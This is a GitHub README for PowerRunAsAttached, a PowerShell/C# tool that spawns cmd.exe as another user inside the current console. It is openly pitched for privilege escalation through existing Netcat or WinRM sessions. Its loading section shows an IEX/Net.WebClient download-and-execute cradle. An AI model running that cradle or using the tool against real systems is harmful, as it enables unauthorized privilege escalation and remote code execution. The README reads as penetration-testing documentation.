

# PowerRunAsAttached

**PowerRunAsAttached** is a ported version of [RunAsAttachedLocal](https://github.com/DarkCoderSc/run-as-attached-local) in Powershell with inline CSharp.

This script allows to spawn a new interactive console as another user account in the same calling console (console instance/window).

One possible example is that this tool gives you with ease the possibility to do vertical / horizontal privilege escalation through your already established Netcat / WinRM session.

---

## Usage

You can use this PowerShell Application whether as a PowerShell Script or as a PowerShell Module.

### Import a new PowerShell Module (Generic Explanation)

To be available, the module must first be present in a registered module path.

You can list module paths with following command:

```powershell
Write-Output $env:PSModulePath
```

Example Output:

```
C:\Users\Phrozen\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;C:\WINDOWS\system32\WindowsPowerShell\v1.0\Modules
```

Copy the module file `<module_name>.psm1` to desired module path.

You can use bellow command to check if your module was successfully imported:

```powershell
Get-Module -ListAvailable
```

Example Output:

```
PS C:\Users\Phrozen\Desktop> Get-Module -ListAvailable


    Directory: C:\Users\Phrozen\Documents\WindowsPowerShell\Modules


ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   <version>  <module_name>                       <available_exported_commands>

<..snip..>
```

If you don't see them, run the following commands and check back.

```powershell
Import-Module <module_name>

Import-Module <module_name>
```

### Import a new PowerShell Script (Generic Explanation)

It is not mandatory to install this application as a PowerShell module (Even if file extension is `*.psm1`)

You can also load it as a PowerShell Script. Multiple methods exists including:

Invoking Commands Using:

```powershell
IEX (Get-Content .\<module_name>.psm1 -Raw)
```

Loading script from a remote location: 

```powershell
IEX (New-Object Net.WebClient).DownloadString('http://127.0.0.1/<module_name>.psm1')
```

## Available Functions

```powershell
Invoke-RunAsAttached
```

### Invoke-RunAsAttached

Spawn a new Windows command-line interpreter (cmd.exe) as another user.

#### Parameters


| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Username (*)       | String           | None       | An existing Microsoft Windows local user account  |
| Password (*)       | String           | None       | Password of specified user account |

* = Mandatory Options

##### Example

```powershell
Invoke-RunAsAttached -Username "darkcodersc" -Password "testmepliz"
```



---

## Demo Video

https://www.youtube.com/watch?v=n71apwuPZYw

---

## CSharp Version: `SharpRunAsAttached`

You will find an alternative version of this project in pure C# [HERE](https://gist.github.com/DarkCoderSc/60a18484fbda7bbb2a1ec0f2b1d42cb7#file-sharprunasattached-cs)
